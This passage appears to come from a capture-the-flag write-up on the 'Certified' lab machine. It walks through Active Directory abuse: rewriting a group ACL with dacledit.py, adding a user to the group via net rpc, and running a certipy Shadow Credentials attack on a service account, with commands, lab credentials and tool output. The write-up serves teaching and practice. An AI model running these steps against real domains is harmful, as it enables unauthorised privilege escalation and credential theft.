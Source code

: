 Then, we modify the ACL to give `judith.mader` the rights to add users:

```bash
dacledit.py -action 'write' -rights 'WriteMembers' \
  -principal judith.mader \ #<-- Who's rights we're modifying
  -target Management \
  'certified'/'judith.mader':'judith09' -dc-ip 10.129.231.186
```

And finally we add `judith.mader` to the Management group::

```bash
net rpc group addmem Management judith.mader -U "certified.htb"/"judith.mader"%"judith09" -S 10.129.231.186
```

The command above doesn't provide any output indicating success. We can use the following command to check that we succeeded:
```bash
net rpc group members Management -U "certified.htb"/"judith.mader"%"judith09" -S 10.129.231.186
CERTIFIED\judith.mader #<-- judith.mader part of Management group
CERTIFIED\management_svc
```


## Abusing  **GenericWrite** on **management_svc** to gain credentials

With group membership secured, we can leverage the `GenericWrite` on the `management_svc` account to perform a **Shadow Credentials** attack, or perform a **Kerberoasting** attack. 
I'll go with the Shadow Credentials attack, as it allows us to grab a NTLM hash which we can use for authentication, which allows us to skip the whole process of attempting to crack the `$krb5tgs$23$` hash. 

```bash
certipy shadow auto -username judith.mader@certified.htb -password judith09 -account management_svc -target certified.htb -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '5b03c640-1a2c-3ef9-a4bb-141d28ebe164'
[*] Adding Key Credential with device ID '5b03c640-1a2c-3ef9-a4bb-141d28ebe164' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '5b03c640-1a2c-3ef9-a4bb-141d28ebe164' to the Key Credentials for 'management_svc'
/home/truffle/boxes/certified/certipy-venv/lib/python3.11/site-packages/certipy/lib/certificate.py:233: CryptographyDeprecationWarning: Parsed a serial number which wasn't positive (i.e., it
was negative or zero), which is disallowed by RFC 5280. Loading this certificate will cause an exception in a future release of cryptography.
  return x509.load_der_x509_certificate(certificate)
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': None
```
